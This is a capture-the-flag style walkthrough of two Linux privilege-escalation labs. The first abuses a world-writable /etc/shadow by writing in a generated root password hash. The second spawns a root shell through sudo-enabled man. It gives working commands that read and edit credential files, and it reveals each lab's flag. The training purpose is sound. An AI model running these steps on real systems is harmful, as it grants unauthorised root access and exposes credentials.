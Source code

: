 # 🔬Linux Privilege Escalation

## Lab 1

> 🔬 [Permissions Matter!](https://www.attackdefense.com/challengedetailsnoauth?cid=75)
>
> * Direct access to the target machine via `student` unprivileged user
> * Find specific **Linux Privilege escalation vulnerabilities manually**
> * Some files permissions are not set properly, use them to elevate privileges.

### Local Enumeration

![](.gitbook/assets/image-20230429120411574.png)

### Misconfigured Permissions Files

* Look for **world writable files**
  * _Find a file that could help to elevate privileges_

```bash
find / -not -type l -perm -o+w
```

![find / -not -type l -perm -o+w](.gitbook/assets/image-20230429120640470.png)

> ❗ `/etc/shadow` is writable by everyone!

```bash
ls -l /etc/shadow
cat /etc/shadow

# "root" user doesn't have a password specified
```

![](.gitbook/assets/image-20230429121216978.png)

### Privilege Escalation

* `/etc/shadow` stores the passwords in an encrypted format, so the `root` password need to be replaced with a hashed password

```bash
# Generate a password entry
openssl passwd -1 -salt abc password123
	$1$abc$UWUoROXzUCsLsVzI0R2et.

# Edit and paste the hashed password into the /etc/shadow file
vim /etc/shadow
```

![](.gitbook/assets/image-20230429121433738.png)

* Switch to the `root` user

```bash
su
# type "password123" password for "root" user

cd
ls
cat flag
```

<details>

<summary>Reveal Flag: 🚩</summary>

`e62ab67ddff744d60cbb6232feaefc4d`

<img src=".gitbook/assets/image-20230429121642209.png" alt="" data-size="original">

</details>

***

## Lab 2

> 🔬 [Editing Gone Wrong](https://www.attackdefense.com/challengedetailsnoauth?cid=80)
>
> * Direct access to the target machine via `student` unprivileged user
> * Find **misconfigured `sudo` privileges**

### Local Enumeration

![](.gitbook/assets/image-20230429120411574.png)

### Misconfigured SUDO Privileges

* Find [`setuid`](https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/) programs

```bash
find / -user root -perm -4000 -exec ls -ldb {} \;
 
find / -perm -u=s -type f 2>/dev/null
```

![](.gitbook/assets/image-20230429122610598.png)

> 📌 Useful tool - [FallOfSudo](https://github.com/CyberOne-TeamARES/FallOfSudo)

* Identify what commands the `student` user can run

```bash
sudo -l
```

![](.gitbook/assets/image-20230429122043004.png)

> ❗ **`/usr/bin/man`** binary can be run _**with**** ****`SUDO`**** ****privileges, without providing a**** ****`root`**** ****user password**_

* This can happen on Linux systems for specific binaries that other users have to run with `SUDO` privileges. It looks _harmless_, but it can allow users to spawn bash privileged sessions, since **the specific binary can be utilized to execute specific commands**. Those commands are executed with the binary `root` privileges.

### Privilege Escalation

```bash
sudo man ls
```

* In the `man` scrolling page, using the **`!`** a `bash` can be spawned

```bash
!/bin/bash

# "root" bash sessions is received
```

![!/bin/bash](.gitbook/assets/image-20230429123257366.png)

* Retrieve the flag with the **`root`** user

<details>

<summary>Reveal Flag: 🚩</summary>

`74f5cc752947ec8a522f9c49453b8e9a`

<img src=".gitbook/assets/image-20230429123424840.png" alt="" data-size="original">

</details>

***
